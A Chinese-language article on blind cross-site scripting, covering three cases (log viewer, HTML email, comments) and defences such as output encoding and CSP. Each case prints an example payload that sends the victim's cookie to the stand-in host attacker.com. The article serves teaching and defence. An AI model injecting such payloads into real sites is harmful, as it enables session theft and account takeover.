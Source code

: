 ### Blind XSS攻击检测案例分析

#### 1. 引言
Blind XSS（盲跨站脚本攻击）是一种特殊类型的跨站脚本攻击（XSS），攻击者将恶意脚本注入到目标应用程序中，但这些脚本并不会立即执行，而是在特定的条件下（如管理员查看日志、用户访问特定页面等）才会触发。由于攻击者无法直接观察到脚本的执行结果，因此称为“盲”XSS。本文将通过分析真实世界中的Blind XSS攻击案例，探讨其检测方法和防御策略。

#### 2. Blind XSS攻击原理
Blind XSS攻击的核心在于攻击者将恶意脚本注入到目标应用程序中，但这些脚本并不会立即执行，而是在特定的条件下触发。攻击者通常利用应用程序的输入点（如表单、URL参数、HTTP头等）注入恶意脚本，这些脚本可能被存储在后端数据库中，或者在特定页面中被渲染执行。

#### 3. 案例分析

##### 3.1 案例一：日志系统中的Blind XSS
**背景**：某企业的Web应用程序具有日志记录功能，管理员可以查看用户的操作日志。攻击者发现应用程序在处理用户输入时未进行充分的过滤和转义，导致恶意脚本可以被注入到日志中。

**攻击过程**：
1. **注入恶意脚本**：攻击者在用户输入字段中注入恶意脚本，例如：
   ```html
   <script>document.location='http://attacker.com/steal?cookie='+document.cookie;</script>
   ```
2. **日志记录**：应用程序将用户输入记录到日志中，未进行任何过滤或转义。
3. **触发执行**：当管理员查看日志时，恶意脚本在管理员的浏览器中执行，窃取其会话cookie。
4. **攻击者获取会话**：攻击者利用窃取的会话cookie，冒充管理员身份进行进一步攻击。

**检测方法**：
- **输入验证**：对用户输入进行严格的验证，确保只允许合法的字符和格式。
- **输出编码**：在将用户输入渲染到页面时，进行适当的HTML编码，防止脚本执行。
- **日志过滤**：在记录日志时，对用户输入进行过滤和转义，防止恶意脚本被记录。

##### 3.2 案例二：邮件系统中的Blind XSS
**背景**：某企业的邮件系统允许用户发送包含HTML内容的邮件。攻击者发现邮件系统在处理HTML内容时未进行充分的过滤和转义，导致恶意脚本可以被注入到邮件中。

**攻击过程**：
1. **注入恶意脚本**：攻击者在邮件内容中注入恶意脚本，例如：
   ```html
   <img src="http://attacker.com/steal?cookie=" onerror="document.location='http://attacker.com/steal?cookie='+document.cookie;">
   ```
2. **发送邮件**：攻击者将包含恶意脚本的邮件发送给目标用户。
3. **触发执行**：当目标用户查看邮件时，恶意脚本在用户的浏览器中执行，窃取其会话cookie。
4. **攻击者获取会话**：攻击者利用窃取的会话cookie，冒充目标用户身份进行进一步攻击。

**检测方法**：
- **HTML过滤**：对邮件内容进行严格的HTML过滤，移除或转义潜在的恶意标签和属性。
- **内容安全策略（CSP）**：实施内容安全策略，限制邮件中可执行的脚本来源。
- **邮件预览**：在邮件预览时，对HTML内容进行渲染和检查，防止恶意脚本执行。

##### 3.3 案例三：评论系统中的Blind XSS
**背景**：某社交平台的评论系统允许用户发布包含HTML内容的评论。攻击者发现评论系统在处理HTML内容时未进行充分的过滤和转义，导致恶意脚本可以被注入到评论中。

**攻击过程**：
1. **注入恶意脚本**：攻击者在评论内容中注入恶意脚本，例如：
   ```html
   <script>document.location='http://attacker.com/steal?cookie='+document.cookie;</script>
   ```
2. **发布评论**：攻击者将包含恶意脚本的评论发布到目标用户的帖子中。
3. **触发执行**：当目标用户或其他用户查看评论时，恶意脚本在用户的浏览器中执行，窃取其会话cookie。
4. **攻击者获取会话**：攻击者利用窃取的会话cookie，冒充目标用户身份进行进一步攻击。

**检测方法**：
- **输入过滤**：对评论内容进行严格的输入过滤，移除或转义潜在的恶意标签和属性。
- **输出编码**：在将评论内容渲染到页面时，进行适当的HTML编码，防止脚本执行。
- **评论审核**：对评论内容进行审核，及时发现和处理恶意脚本。

#### 4. Blind XSS攻击检测方法

##### 4.1 输入验证
输入验证是防止Blind XSS攻击的第一道防线。应用程序应对所有用户输入进行严格的验证，确保只允许合法的字符和格式。例如，对于电子邮件地址，应验证其格式是否符合标准；对于URL，应验证其协议和域名是否合法。

##### 4.2 输出编码
输出编码是防止Blind XSS攻击的关键措施。在将用户输入渲染到页面时，应进行适当的HTML编码，防止恶意脚本执行。例如，将`<`编码为`&lt;`，将`>`编码为`&gt;`，将`"`编码为`&quot;`等。

##### 4.3 内容安全策略（CSP）
内容安全策略（CSP）是一种有效的防御措施，可以限制页面中可执行的脚本来源。通过配置CSP，可以防止恶意脚本从外部源加载和执行。例如，可以配置CSP只允许脚本从特定的域名加载，或者禁止内联脚本的执行。

##### 4.4 日志过滤
日志过滤是防止Blind XSS攻击的重要措施。在记录日志时，应对用户输入进行过滤和转义，防止恶意脚本被记录。例如，可以将日志中的HTML标签和特殊字符进行转义，或者将日志内容存储为纯文本格式。

##### 4.5 定期安全审计
定期进行安全审计是发现和修复Blind XSS漏洞的有效方法。通过定期检查应用程序的代码和配置，可以发现潜在的安全漏洞，并及时进行修复。安全审计应包括代码审查、渗透测试、漏洞扫描等多种方法。

#### 5. 结论
Blind XSS攻击是一种隐蔽且危险的攻击方式，攻击者通过注入恶意脚本，在特定条件下触发执行，窃取用户会话或进行其他恶意操作。通过案例分析，我们可以看到Blind XSS攻击的多样性和复杂性。为了有效防御Blind XSS攻击，应用程序应采取多层次的防御措施，包括输入验证、输出编码、内容安全策略、日志过滤和定期安全审计等。只有通过综合运用这些措施，才能最大限度地降低Blind XSS攻击的风险，保障Web应用程序的安全性。

---

*文档生成时间: 2025-03-11 16:29:16*






















